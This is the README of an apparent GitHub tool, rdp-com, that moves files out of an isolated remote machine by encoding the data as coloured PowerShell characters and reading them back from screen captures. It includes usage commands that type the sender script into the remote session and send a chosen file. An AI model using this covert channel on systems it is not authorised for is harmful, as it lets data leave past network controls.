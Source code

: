 # rdp-com
Exfiltrate data from a remote session where the only way to get data out is via the rdp screen.

## Introduction 
This tool allows to copy data from a remote system that has no internet access.
Even if DNS requests are blocked (and the only way to communicate with the system is via the rdp screen), this tool can be used.
This tool communicates with the host computer by displaying characters
in different colors on the powershell console.
The script grabs the screen content, detects the colors and converts them back into binary data.

## Prerequisites
To met the tool's dependencies on the host computer, the following command can be issued:
```
pip install --user -r requirements.txt
```
The sender script (`rdp-com.ps1`) needs no additional software and can be run everywhere where a powershell console is accessible.

## Usage
To copy data from the remote to the host computer, first the script `rdp-com.ps1` must be copied onto the remote system.
For this, a simple Linux command can be used that automatically types the script after an initial delay of five seconds:
```
sleep 5; cat rdp-com.ps1 | xargs -i{} xdotool type {} --delay 10
```

After that, start the receiver script on the host computer.
For example, the data is read here from the initial screen coordinates (200, 800):
```
./receiver.py --posX 200 --posY 800
```

If the receiver script is running, the sender script can be executed on the remote system:
```
Import-Module .\rdp-com.ps1 -force; rdp-com -delay 50 -pack 24 -path <path/to/file/to/transmit>
```

## Demonstration
<a href="https://drive.google.com/uc?export=view&id=1awvEpWflo1hlVaV1iR3KTR9d2eQTQkh8"><img src="https://drive.google.com/uc?export=view&id=1awvEpWflo1hlVaV1iR3KTR9d2eQTQkh8" style="width: 500px; max-width: 100%; height: auto" title="Click for the larger version." /></a>